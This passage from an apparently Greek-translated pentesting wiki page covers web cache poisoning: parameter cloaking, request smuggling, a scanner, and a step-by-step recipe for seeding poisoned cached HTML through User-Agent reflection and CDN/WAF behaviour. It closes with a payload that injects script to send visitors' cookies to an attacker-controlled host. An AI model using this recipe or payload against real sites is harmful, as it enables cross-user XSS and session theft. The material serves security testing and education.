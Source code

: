 ### Parameter Cloacking

Για παράδειγμα, είναι δυνατόν να διαχωρίσετε **παραμέτρους** σε διακομιστές ruby χρησιμοποιώντας τον χαρακτήρα **`;`** αντί για **`&`**. Αυτό θα μπορούσε να χρησιμοποιηθεί για να τοποθετήσετε τις τιμές παραμέτρων χωρίς κλειδί μέσα σε παραμέτρους με κλειδί και να τις εκμεταλλευτείτε.

Portswigger lab: [https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking)

### Exploiting HTTP Cache Poisoning by abusing HTTP Request Smuggling

Μάθετε εδώ πώς να εκτελέσετε [Cache Poisoning attacks by abusing HTTP Request Smuggling](../http-request-smuggling/index.html#using-http-request-smuggling-to-perform-web-cache-poisoning).

### Automated testing for Web Cache Poisoning

Ο [Web Cache Vulnerability Scanner](https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner) μπορεί να χρησιμοποιηθεί για αυτόματη δοκιμή για web cache poisoning. Υποστηρίζει πολλές διαφορετικές τεχνικές και είναι πολύ παραμετροποιήσιμος.

Example usage: `wcvs -u example.com`

### Header-reflection XSS + CDN/WAF-assisted cache seeding (User-Agent, auto-cached .js)

Αυτό το πραγματικό μοτίβο αλυσίδων μια βασισμένη σε header primitive reflection με τη συμπεριφορά CDN/WAF για να δηλητηριάσει αξιόπιστα το cached HTML που σερβίρεται σε άλλους χρήστες:

- Το κύριο HTML αντανάκλασε μια μη αξιόπιστη κεφαλίδα αιτήματος (π.χ., `User-Agent`) σε εκτελέσιμο πλαίσιο.
- Ο CDN αφαίρεσε τις κεφαλίδες cache αλλά υπήρχε μια εσωτερική/προέλευσης cache. Ο CDN επίσης αυτο-καταχώρισε αιτήματα που τελείωναν σε στατικές επεκτάσεις (π.χ., `.js`), ενώ ο WAF εφαρμοζε ασθενέστερη επιθεώρηση περιεχομένου σε GETs για στατικά περιουσιακά στοιχεία.
- Οι ιδιορρυθμίες ροής αιτημάτων επέτρεψαν σε ένα αίτημα σε μια διαδρομή `.js` να επηρεάσει το κλειδί/παραλλαγή cache που χρησιμοποιήθηκε για το επόμενο κύριο HTML, επιτρέποντας cross-user XSS μέσω της αντανάκλασης κεφαλίδων.

Practical recipe (observed across a popular CDN/WAF):

1) Από μια καθαρή IP (αποφύγετε τις προηγούμενες υποβαθμίσεις βάσει φήμης), ορίστε ένα κακόβουλο `User-Agent` μέσω του προγράμματος περιήγησης ή του Burp Proxy Match & Replace.
2) Στο Burp Repeater, ετοιμάστε μια ομάδα δύο αιτημάτων και χρησιμοποιήστε "Send group in parallel" (λειτουργία single-packet λειτουργεί καλύτερα):
- Πρώτο αίτημα: GET μια διαδρομή πόρου `.js` στην ίδια προέλευση ενώ στέλνετε το κακόβουλο `User-Agent` σας.
- Άμεσα μετά: GET την κύρια σελίδα (`/`).
3) Ο αγώνας δρομολόγησης CDN/WAF συν το αυτο-καταχωρημένο `.js` συχνά σπέρνει μια δηλητηριασμένη παραλλαγή cached HTML που στη συνέχεια σερβίρεται σε άλλους επισκέπτες που μοιράζονται τις ίδιες συνθήκες κλειδιού cache (π.χ., ίδιες διαστάσεις `Vary` όπως `User-Agent`).

Example header payload (to exfiltrate non-HttpOnly cookies):
```
User-Agent: Mo00ozilla/5.0</script><script>new Image().src='https://attacker.oastify.com?a='+document.cookie</script>"
```
Operational tips:
